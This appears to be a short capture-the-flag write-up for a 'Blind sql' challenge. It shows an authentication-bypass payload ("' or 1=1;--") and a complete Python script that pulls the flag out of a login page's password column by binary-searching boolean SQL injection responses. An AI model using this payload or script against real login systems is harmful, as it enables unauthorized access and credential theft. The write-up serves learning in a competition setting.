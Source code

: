 # Blind sql

We have a login page which tells us whether we successfully logged in. A quick test with the `uname` parameter as `' or 1=1;--` shows that the page is vulnerable to SQL injection. Since there's no flag even if we login successfully, the flag may lie in the password. Thus, we just need to send queries that gives us information about the password (`psw` parameter) based on whether we login successfully.

The way to do this with the least queries is to binary search for the password, as shown in the Python script below:

```python
import requests as req

url = 'http://130.185.122.155:8080/login'
cookies = { '416c6c6f77': '54727565' }


data = {
    'uname': "' or 1=1;--",
    'psw': "password"
}
success_text = req.post(url, cookies=cookies, data=data).text
data = {
    'uname': "' or 1=1;-",
    'psw': "password"
}
fail_text = req.post(url, cookies=cookies, data=data).text


current_password = 'RaziCTF{'
char_set = ''.join(sorted('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}!@#$^&*()[]-=+;:,./<>?'))

while True:
    lo, hi, ans = 0, len(char_set)-1, -1
    while lo <= hi:
        mid = (lo + hi) // 2
        next_char = char_set[mid]
        
        data = {
            'uname': "' or password>='" + current_password + next_char + "';--",
            'psw': "password"
        }
        res = req.post(url, cookies=cookies, data=data)
        if res.text == success_text:
            ans = mid
            lo = mid + 1
        else:
            hi = mid - 1
    current_password += char_set[ans]
    if current_password[-1] == '}':
        break

# output the flag
print(current_password)
```
